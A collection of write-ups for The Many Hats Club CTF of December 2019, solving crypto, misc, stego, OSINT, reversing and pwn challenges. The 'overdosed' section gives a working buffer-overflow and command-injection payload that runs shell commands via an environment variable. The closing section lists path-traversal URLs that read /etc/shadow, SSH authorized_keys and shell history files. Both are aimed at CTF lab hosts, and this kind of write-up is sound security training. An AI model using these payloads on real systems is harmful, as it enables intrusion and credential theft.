# The Many Hats Club CTF
The CTF was active from 14 Dec 2019 00:00 until 15 Dec 2019 23:59.


## Overview

 Title          | Category      | Points        | Flag         |
| ------------- | ------------- | ------------- | ------------- |
| Shitter       | Web           | 300           |               |             
| Hackbot       | Web           | 400           |               |
| BoneChewerCon | Web           | 125           |
| Lotto-win     | Crypto        | 150           | TMHC{Lucki3r_th4n_Pelayo}         
| matrix_madness| Crypto        | 200           |               | 
| C4n_I_h4z_c0d3_n_crypt0 | Misc| 100           |               |
| DESk          | Misc          | 125           | TMHC{1_kn0w_d35cr1pt1v3_n0t4t10n}             
| Beeeep_Beeeep | Misc          | 175           | TMHC{0f5ee61ef3fbb4bb066df8c286ec84b07a7a5d95}
| flagthebox    | Misc          | 400           |               |
| the bain of chiv| Misc        | 200           |               |             
| miniPWN       | Pwn           | 200           |               | 
| overdosed     | Pwn           | 150           |               |
| w00ter        | Pwn           | 600           |               |             
| Operation     | Reversing     | 100           | TMHC{b1tWi5e_0pEr4tiOns}               | 
| DeNuevo       | Reversing     | 125           | TMHC{5yjzx3d265gb7j}               |
| Quack         | Reversing     | 400           |               |             
| QuackQuack    | Reversing     | 600           |               | 
| WANTED        | Stego         | 425           | TMHC{Th1sIsY0u1sntIt} 
| HelpSomeoneIsTryingToBeMe| OSINT        | 225 |TMHC{Y0u_F0uNd_My_S3cR3t_1ts_StU}|
| quoted        | Mobile        | 400           |               | 


## Lotto-win

Connect to the docker with netcat to start the lottery.

    nc -v docker.hackthebox.eu 31182


We are given the source code, and upon inspection we make the following observations which turn to a hunch:

 1) The "next" function plays an important part since we only got that piece of code
 2) The "next" function takes a "seed" as input and produces a list of the "new seed" and the winning number
 3) A "seed" variable exists in the global scope, but is not in this code known to be updated since then

Hunch:
What if the seed can be found, by checking all possible seed inputs and looking for any of the winning numbers? It will take a little while to calculate, but it's only CPU power, so who cares.


We start a python3 process in the terminal and copy in the function:

    root@kali:~/htb/ctf/tmhc-dec-2019/crypto/lotto# python3
    Python 3.7.5 (default, Oct 27 2019, 15:43:29) 
    [GCC 9.2.1 20191022] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> def next(seed):
    ...     # Max winner number
    ...     MAX = 2000000000
    ...     # Min winner number
    ...     MIN = 1
    ...     # Change of the seed
    ...     seed = seed * seed + seed
    ...     # Truncation of the seed
    ...     if (seed > 0xFFFFFFFF):
    ...             seed = int(hex(seed)[-8:], 16)
    ...     # Return of [new seed, new winner number]
    ...     return [seed, seed % (MAX - MIN) + MIN]
    ... 
    >>> 


Then we write a small script that will check all possible inputs and tell us when it finds the winning numbers. Note the added "progress" part here as well, just to keep track of how far it has gone.

    >>> for i in range(0x1336, 0xFFFFFFFF):
    ...   if next(i)[1] == 1694266428:
    ...     print(f'Found it! Seed is: {i}')
    ...   if i % 10000000 == 0:
    ...     print(i)
    ... 
    10000000
    20000000
    30000000


This goes on for a while until it finds the seed that produces the example winning number "1694266428" from the code above:

    # ...
    1400000000
    1410000000
    Found it! Seed is: 1419577513


Nice! We can confirm that this works by calculating the next winning number based on the seed, and checking the winning number we calculate up againt that which the HTB service gave us. It works!

At this point all we have to do is calculate the winning numbers and seeds until we reach the winning number which has not yet been announced, and input this as our number to win!

    >>> next(1419577513)
    [3694266426, 1694266428]
    >>> next(3694266426)
    [3273504094, 1273504096]
    >>> next(3273504094)
    [2397553634, 397553636]
    >>> next(2397553634)
    [1587926886, 1587926887]


Bingo! We input "1587926887" as our winning number and get our prize :)

    Last Lottery numbers:
    410384963
    762245959
    1234130540
    310725200
    1491642900
    875389784
    1694266428
    1273504096
    397553636
    Wait 5 minutes to play the next round of lottery...
    Enter your lottery number: 1587926887
    WOW! YOU WON THE LOTTERY!! GET YOUR REWARD WITH THE CODE 'TMHC{Lucki3r_th4n_Pelayo}'!!!1!11!
    
## DESk - Category: Misc
TL;DR:
- Looked at the image noticed it was a chess move.
- Recently I knew of a weird chess/Linux related thing where Ken Thompsons password was cracked
- Googled for that, found his password `p/q2-q4!`
- Looked at the supplied image to see that the pawn in front of the king is moving from 2-4 
- Extrapolating that to mean this password is `p/k2-k4!`
- Unzip using the password and get the flag

DESk was a fun challenge with a bit of Google searching and history involved.


 
The challenge info gives us almost what seems like a hint


 
unzipping the challenge gives us an image of a computer where the user is trying to login as “ken”. We also see a chestboard piece of paper just above the keyboard

<image>
 
zooming in, we see a chest board where it looks like a chest move has been performed


 
Googling the “description” of the challenge (password 39 years) gives us an article which explains how someone created an interesting password from a chest move
https://en.chessbase.com/post/after-39-years-chess-password-cracked



in the article, we see a snippet which states the password may be: p/q2-q4!


we try the password, but it is incorrect:


we also see another interesting code snippet:


Google image searching this gives us a chest move as an image: p = pawn
q2 - q4 = move queen position 2 to position 4



I Google searched the chest board location to see if we can find an image of a chest board


I found this image:



the chestboard piece of paper shows the king performing a very similar move to the queen. That should mean:
p = pawn
k2 - k4 = move king position 2 to position 4



That should give us a string: p/k2-k4!
Lets try unzipping it using p/k2-k4! as the password:



It worked, we got the flag!
    `TMHC{1_kn0w_d35cr1pt1v3_n0t4t10n}`

## HelpSomeoneIsTryingToBeMe

This OSINT challenge is an easy one. The concept of the challenge is looking into messages sent in collaboration platforms. It ends with decoding a Estoteric language to get the flag.

# The Challenge:

So one of the owners of TMHC Dave @Dav is having an identity crisis, can you find the fake account and their secret? You’ll need to join TMHC discord to start this challenge. https://discord.gg/infosec
By clicking the Discord link, you will be directed to The Many Hats Club CTF discord server. Prior to this CTF, I am already a member of the Discord. I then searched for the string “dav” and it seems that there are 3 users with Dav on their name and handle.


I then checked the Dav#6825 because maybe the users are arranged by the date they are created or they joined the server. Checking its messages, I found his dialogue is interesting. I continued browsing.




In the earliest message of that account, there is a base64 string.



Decoding it leads to a URL:

```
$ echo -n YUhSMGNITTZMeTl3WVhOMFpXSnBiaTVqYjIwdmRTOUpZVzF1YjNSa1lYWmwgR28gQWdhaW4=| base64 -d
aHR0cHM6Ly9wYXN0ZWJpbi5jb20vdS9JYW1ub3RkYXZl Go Again
$ echo -n YUhSMGNITTZMeTl3WVhOMFpXSnBiaTVqYjIwdmRTOUpZVzF
1YjNSa1lYWmwgR28gQWdhaW4=| base64 -d | base64 -d
https://pastebin.com/u/Iamnotdavebase64: invalid input
```

The URL is:

```
https://pastebin.com/u/Iamnotdave
```

Visiting the URL, I see some pastes:


Checking the contents of the iamnotdave file:

```
---Garlang_Bread - you will never crack my code---
agarlicgonbreadagarlicagarlicagarlicgbgarbredgarlicgaaaargbagarlicogarbredagarlicagarlicagarlicagarlicagarlicagarlicagarlicogarbredagarlicagarlicagarlicagarlicagarlicogarbredagarlicagarlicagarlicagarlicagarlicogarbredagarlicagarlicagarlicagarlicagarlicgonbreadagarlicgbgarbredgarbredgarlicgaaaargbagarlicogarbredgbgarbredgonbreadagarlicagarlicagarlicgbgarbredgarbredgarlicgaaaargbgarbredgarbredgarbredogarbredgarbredgonbreadagarlicagarlicgbgarbredgarlicgaaaargbgarbredgarbredgarbredogarbredgarbredgonbreadagarlicagarlicagarlicgbgarbredgarbredgarlicgaaaargbagarlicogarbredgonbreadagarlicgbgarbredgarbredgarbredgarlicgaaaargbogarbredagarlicgonbreadagarlicagarlicagarlicagarlicagarlicgbgarbredgarlicgaaaargbogarbredgarbredgarbredgonbreadagarlicagarlicagarlicgbgarbredgarbredgarlicgaaaargbogarbredgarbredgonbreadagarlicagarlicagarlicgbgarbredgarbredgarlicgaaaargbagarlicogarbredgonbreadagarlicagarlicagarlicgbgarbredgarbredgarlicgaaaargbogarbredagarlicagarlicagarlicgonbreadagarlicagarlicagarlicgbgarbredgarbredgarbredgarbredgarlicgaaaargbogarbredagarlicagarlicagarlicagarlicagarlicogarbredgonbreadagarlicagarlicagarlicagarlicagarlicgbgarbredgarbredgarbredgarbredgarlicgaaaargbgarbredogarbredagarlicgonbreadgarbredgarbredgarbredgarbredgbagarlicagarlicagarlicgarlicgaaaargbogarbredgonbreadagarlicgbgarbredgarbredgarbredgarbredgarbredgarlicgaaaargbgarbredgarbredogarbredagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicogarbredgbagarlicgonbreadagarlicagarlicagarlicagarlicagarlicgbgarbredgarlicgaaaargbogarbredagarlicgonbreadagarlicgbgarbredgarbredgarlicgaaaargbagarlicogarbredgonbreadagarlicgbgarbredgarbredgarbredgarbredgarbredgarbredgarlicgaaaargbogarbredgbagarlicgonbreadagarlicagarlicagarlicagarlicagarlicgbgarbredgarlicgaaaargbogarbredagarlicagarlicgonbreadagarlicagarlicagarlicgbgarbredgarbredgarlicgaaaargbagarlicagarlicogarbredgarbredgonbreadagarlicgbgarbredgarbredgarbredgarlicgaaaargbogarbredgarbredgonbreadagarlicagarlicgbgarbredgarlicgaaaargbgarbredogarbredgonbreadagarlicagarlicagarlicgbgarbredgarbredgarlicgaaaargbagarlicagarlicogarbredagarlicogarbredgarbredgarbredgonbreadagarlicgbgarbredgarbredgarbredgarlicgaaaargbogarbredagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicagarlicogarbredgonbreadagarlicagarlicagarlicgbgarbredgarlicgaaaargbgarbredgarbredgarbredogarbredgbagarlicgonbreadagarlicagarlicagarlicgbgarbredgarlicgaaaargbogarbredagarlicgonbreadagarlicagarlicgbgarbredgarbredgarbredgarlicgaaaargbagarlicogarbred
```
I searched for the string “Garlang_Bread” and these are hits:



Visiting the Github page:



Another mention of Stu. I then clone the repository and run the java stuff against the string:

```
java garlicbread garlicCipherText.gbread result.txt
```



Saving the output to result.txt, I run the java program on result.txt:


And I can get the flag:

```
TMHC{Y0u_F0uNd_My_S3cR3t_1ts_StU}
```
I wanted to mention my teammate S1ckB0y! Thanks for fixing the Java part :)

## Wanted
After staring at the image for a little while, it was clear that the image had
some kind of reversible distortion. So, first of all, we tried to identify what
type of distortion we were dealing with. 

We started googling some terms like:
  * Vortex image distortion.
  * Winding image distortion.
  * Twirl image distortion.

After some unsuccessful searches, we found [this
blog](http://matzjb.se/2015/07/26/deconstructing-swirl-face/) when searching
for "swirl image distortion". It is a blog about how a pedophile tried to hide
his face using the same type of distortion that appears on the challenge.
Luckily for us (and unluckily for the pedophile), this type of distortion is
reversible to a degree. The blog showcases this technique using photoshop.

Since we did not have photoshop available, we started playing with the image
using **Gimp**, which has "Whirl and Pinch" distortion under Filters ->
Distorts.

This is the original image:  


We can start by making a selection around the affected portion of the image by using the ellipse select tool.  
 


The trial and error comes into play now.  I'm not sure if the image is fully recoverable, but image needs to be focused on in sections rather than trying to undo the image as a whole.  When I first started working on the image I used a negative swirl to undo most of the outter edges and slowly worked my way to the center.  Depending on your selection of the image your settings of the tool may vary, but the end result is the same.  Below is an example of my selection and tool settings to get a large part of the image visible.  Some guess work was required to get the correct characters for the flag.  
Once a section of the image was where I needed it to be I created a new layer with that selection and locked it so it could not be altered by further use of the Whirl tool.  Unfortunately I no longer have my final version of the image, but this is a close version of it.    


After a bit of guesswork, we come to the conclusion the flag is:
TMHC{Th1sIsY0u1sntIt}


# TMHC CTF 2019

> By Bread (@nonsxd) 

## C4n_I_h4z_c0d3_n_crypt0 - Category: Misc

This was a web/programming based challenge where you were given some maths and you needed to return the answer.

Taking a gamble that the creators weren't going to mess with me I decided to take the simplest path. `eval()`
and well that worked.
I couldn't be bothered dealing with the `base64` inline so I did it manually and ran my solution again with the fix.
>note: don't forget requests.Session()

```python
import requests

url = 'http://docker.hackthebox.eu:30307/flag'
g = requests.Session()
x = g.post(url).text.split("<br>")

problem=format(eval(x[2]),'.2f')

while u'Problem:' in x[1]:
    data = {'answer': problem}
    x = g.post(url, data=data).text.split("<br>")
    if u'Problem:' in x[1]:
        problem = format(eval(x[1][8:]),'.2f')
    else:
        data = {'answer': 'YES_I_CAN!'}
        flag = g.post(url, data=data).text
        print (flag)
```

```bash
bread@sticks:~#python3 solve.py
TMHC{}
```
and we have the flag:

    `TMHC{}`   

## Beeeep_Beeeep - Category: Misc

- Listened to the audio and recognised it as a video from SmarterEveryDay
- Found the specific video [Oscilloscope Music - (Drawing with Sound) - Smarter Every Day 224](https://www.youtube.com/watch?v=4gibcRfp4zA)
- Looked for an Oscilloscope tool and found [asdfg.me/osci/](http://asdfg.me/osci/)
- Opened the file and we have the flag being played in pieces


    `TMHC{0f5ee61ef3fbb4bb066df8c286ec84b07a7a5d95}`
    
## overdosed - Category: PWN

Opened in ghidra, looked at `main()`

```c
undefined8 main(undefined4 param_1,undefined8 param_2){
  undefined *__command;
  size_t sVar1;
  ulong uVar2;
  undefined8 auStack176 [2];
  undefined4 local_9c;
  char local_98 [72];
  undefined *local_50;
  long local_48;
  int local_3c;
  
  auStack176[0] = 0x1013bf;
  auStack176[1] = param_2;
  local_9c = param_1;
  first_chall();
  auStack176[0] = 0x1013cb;
  puts("Hey, I am from TMHC. Could you tell me your name?");
  auStack176[0] = 0x1013dc;
  printf("Name: ");
  auStack176[0] = 0x1013eb;
  fflush(stdout);
  auStack176[0] = 0x101409;
  read(1,local_98,0x40);
  auStack176[0] = 0x101418;
  sVar1 = strlen(local_98);
  local_3c = (int)sVar1;
  auStack176[0] = 0x101434;
  uVar2 = name_check((long)local_98,local_3c,0);
  if ((int)uVar2 == 0) {
    local_48 = (long)(local_3c + 0x12) + -1;
    uVar2 = ((long)(local_3c + 0x12) + 0xfU) / 0x10;
    local_50 = (undefined *)(auStack176[1] + uVar2 * 0x1ffffffffffffffe);
    auStack176[uVar2 * 0x1ffffffffffffffe] = 0x1014be;
    sprintf((char *)(auStack176[1] + uVar2 * 0x1ffffffffffffffe),"/bin/echo Hello \"%s\"",local_98,
            local_98);
    __command = local_50;
    auStack176[uVar2 * 0x1ffffffffffffffe] = 0x1014ca;
    system(__command,*(undefined *)(auStack176 + uVar2 * 0x1ffffffffffffffe));
  }
  else {
    auStack176[0] = 0x1014db;
    puts("Illegal name!");
  }
  return 0;
}
```

From here we can see a couple of things:
 - `first_chall()`
 - `local_98` is the name variable, `local_3c` is length and they are used in the `name_check` function.
 - If that function returns a `0`, then our name variable is used in the string `"/bin/echo Hello \"%s\""` which is an argument to `system()`.

This means we can probably command inject, but first we need to see what `first_chall` and `name_check` do.

```c
void first_chall(void){
  size_t sVar1;
  ulong uVar2;
  char local_a8 [32];
  char local_88 [32];
  char local_68 [64];
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  FILE *local_10;
  
  local_28 = 0x7869704851;
  local_20 = 0;
  local_18 = 0;
  puts("Could you tell me about yourself?");
  fflush(stdout);
  gets(local_68);
  sVar1 = strlen((char *)&local_28);
  uVar2 = name_check((long)&local_28,(int)sVar1,1);
  if ((int)uVar2 == 0) {
    sprintf(local_a8,"/bin/echo \"%s\"",&local_28);
    local_10 = popen(local_a8,"r");
    fgets(local_88,0x1e,local_10);
    setenv("name",local_88,1);
  }
  else {
    puts("Too bad!!");
  }
  return;
}
```
Ok lets read the code:
- We can see that an environment variable (`name`) is set to the value found in `local_88` 
    - Which can only be `30` char long.
    - Which is the output of `popen()`
- `popen()` is constructed with `"/bin/echo \"%s\""` and `local_28`
    - `local_28 == 0x7869704851` or `QHpix`
- For no apparent reason a `gets(local_68)` call exists
    - `local_68` is not used after this point.
    -  `local_68 [64]`, length is 64.
    - `gets()` is a known vulnerable function, used in BOF attacks

This means we have a BOF, and with it (depending on the stack layout) we can control the environment variable (`name`).

Lets take a look at `name_check` now because both the CI and BOF rely on it returning `0`:

```c
ulong name_check(long param_1,int param_2,int param_3){
  char cVar1;
  uint local_10;
  int local_c;
  
  local_10 = 0;
  local_c = 0;
  while (local_c < param_2) {
    cVar1 = *(char *)(param_1 + local_c);
    if (cVar1 == '/') {
      if (param_3 == 0) {
        local_10 = 0xffffffff;
      }
    }
    else {
      if (cVar1 < '0') {
        if (cVar1 == '&') {
          local_10 = 0xffffffff;
        }
        else {
          if (cVar1 == '(') {
            if (param_3 == 0) {
              local_10 = 0xffffffff;
            }
          }
          else {
            if ((cVar1 == '\"') && (param_3 == 0)) {
              local_10 = 0xffffffff;
            }
          }
        }
      }
      else {
        if (cVar1 == '`') {
          local_10 = 0xffffffff;
        }
        else {
          if (cVar1 == '|') {
            local_10 = 0xffffffff;
          }
          else {
            if ((cVar1 == ';') && (param_3 == 0)) {
              local_10 = 0xffffffff;
            }
          }
        }
      }
    }
    local_c += 1;
  }
  return (ulong)local_10;
}
```

This is simple enough its a blacklist function, that triggers on any occurrences of these characters ```['/', '&', '(', '\"', '`', '|', ';']```.

A couple of interesting things to note:
- There is no `$` blacklisting.
- There is a bypass flag `param_3`.
    - The call from `first_chall` is set to `1` allowing a bypass.
    - The call from `main` is set to `0`, so we have a restricted CI there.

### Lets put this all together then
- We use the BOF to set `name` env to a command of our choice.
    - `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(echo "bread")`
- We then call `name` using `$name`

```bash
bread@sticks:~# ./overdosed 
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(echo "bread")
Hey, I am from TMHC. Could you tell me your name?
Name: $name
Hello bread
```

yep that works, guess the stack is set up how I expected. lets try it on the server.

```bash
bread@sticks:~# nc docker.hackthebox.eu 1337
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(cat flag.txt)
Hey, I am from TMHC. Could you tell me your name?
Name: $name
Hello TMHC{}
```

Got the flag

    `TMHC{}`

## Operation - Category: RE

Opened in ghidra read `main()`
```c
undefined8 main(int argc,undefined8 *argv){
  int iVar1;
  char local_28 [32];
  
  if (argc < 2) {
    printf("Usage: %s <file>\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (2 < argc) {
    iVar1 = strncmp("--debug",(char *)argv[2],7);
    if (iVar1 == 0) {
      isDebug = 1;
      printf("operations is at: %p\n",operations);
    }
  }
  readFlag(local_28,(char *)argv[1]);
  operations((long)local_28,0);
  puts(local_28);
  return 0;
}
```
Which as you can see at the bottom 2 functions are called firstly `readFlag()` then `operations()`.
If we quickly look at `operations()` if `param_2` does not equal `0` then the operations are not applied.

```c
void operations(long param_1,int param_2){
  int local_c;
  
  if (param_2 != 0) {
    local_c = 0;
    while (local_c < 5) {
      *(byte *)(param_1 + local_c) = *(byte *)(param_1 + local_c) ^ 0x23;
      local_c += 1;
    }
    local_c = 5;
    while (local_c < 0xf) {
      *(byte *)(param_1 + local_c) = *(byte *)(param_1 + local_c) ^ 0x19;
      local_c += 1;
    }
    local_c = 0xf;
    while (local_c < 0x19) {
      *(byte *)(param_1 + local_c) = *(byte *)(param_1 + local_c) ^ 1;
      local_c += 1;
    }
  }
  return;
}
```

At this point you can patch the call to `operations()`, setting `param_2` to any int other than `0` and it will do the operations for you.
However a quick read of the code and we can see its just some `XOR` operations.

Easy enough to do ourselves, copy the content from `flag.txt`, put in `cyberchef` and use the `XOR` function.
Set the first `5 chars` of the key to `0x23`, next 5 `0x19`,and then the remaining to `0x01`

``` 
XOR KEY
23232323231919191919191919191901010101010101010101
```

[Recipe](https://gchq.github.io/CyberChef/#recipe=XOR%28%7B%27option%27:%27Hex%27,%27string%27:%2723232323231919191919191919191901010101010101010101%27%7D,%27Standard%27,false%29&input=d25rYFh7KG1OcCx8RilpRHM1dWhOb3J8Cw)

got the flag:

    `TMHC{b1tWi5e_0pEr4tiOns}`
    
## DeNuevo - Category: RE

Opened in ghidra read `entry()` which calls `FUN_00401073(1)`.

If we have a look at that code, we see a loop using an `XOR` operation,  on the `local_res0` variable.
```c
void FUN_00401073(UINT param_1)

{
  code *pcVar1;
  int iVar2;
  byte *pbVar3;
  byte *local_res0;
  
  iVar2 = 0x69;
  pbVar3 = local_res0;
  do {
    *pbVar3 = *pbVar3 ^ 0xab;
    pbVar3 = pbVar3 + 1;
    iVar2 += -1;
  } while (iVar2 != 0);
  WinExec((LPCSTR)local_res0,param_1);
  ExitProcess(0);
  pcVar1 = (code *)swi(3);
  (*pcVar1)();
  return;
}
```

We don't currently know what `local_res0` is but we do know what onces the `XOR` loop is completed its used by `WinExec()`. 

> Runs the specified application.
```
UINT WinExec(
  LPCSTR lpCmdLine,
  UINT   uCmdShow
);
```
[WinExec function](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec)

OK lets open it now with `x32dbg` and set a breakpoint at the called to `WinExec()` (`003B1081`), and run.
looks like the argument to `WinExec()` are:
```
1: [esp] 003B100B "C:\\Python27\\python.exe -c \"import zlib;exec(zlib.decompress(open('.\\denuevo.exe','rb').read()[9216:]))\""
2: [esp+4] 00000001 
```
change that up a little so its written to a file rather than `exec`.
```python 
import zlib
with open('extracted_file.py', 'w') as f:
	f.write(zlib.decompress(open('denuevo.exe','rb').read()[9216:]))
```
and we have (minus the snake game):
```python 
x = list(raw_input("Enter your serial key: "))
for i in ['j','7','b','g','5','6','2']:
	if x.pop() != i: exit()
i = int(i)
while i != 9:
	if x.pop() != ['j','x','d','y','z','3','5'][i]: exit()
	i += -4 if i + 3 > 6 and i != 6 else 3
print "Your serial key has activated the videogame! Submit the challenge with TMHC{serial}"
...
```

Final part is to use the loops to undo themselves.
```python
# reverse the array
serial = ['j','7','b','g','5','6','2'][::-1]
x = serial.copy()
for i in ['j','7','b','g','5','6','2']:
    if x.pop() != i: exit()
i = int(i)
while i != 9:
    # insert at the start
    serial.insert(0,['j','x','d','y','z','3','5'][i])
    i += -4 if i + 3 > 6 and i != 6 else 3
print (f"TMHC{'{'+''.join(serial)+'}'}")
```

and we get the flag:
```bash
bread@sticks:~# python solve.py
TMHC{5yjzx3d265gb7j}
```

    `TMHC{5yjzx3d265gb7j}`

## Other - Category: incomplete


```
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.bash_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.histdb/zsh-history.db
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/whatcanisudo
view-source:http://docker.hackthebox.eu:30361/?page=../../../../opt/checkflag9of10.exe
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.zsh_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../etc/ssh/sshd_config
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/web/.ssh/authorized_keys
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../etc/shadow
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/flag3of10/.ssh/authorized_keys


flag(1/10):TMHC{y0u_
flag(2/10):0nly_g3t
flag(3/10):#1flag
flag(4/10):
flag(5/10):7iME_:(_
flag(6/10):Bu7_Th3r3_
flag(7/10):
flag(8/10):_A_l0t_
flag(9/10): <? errrrh re>
flag(10/10):
```


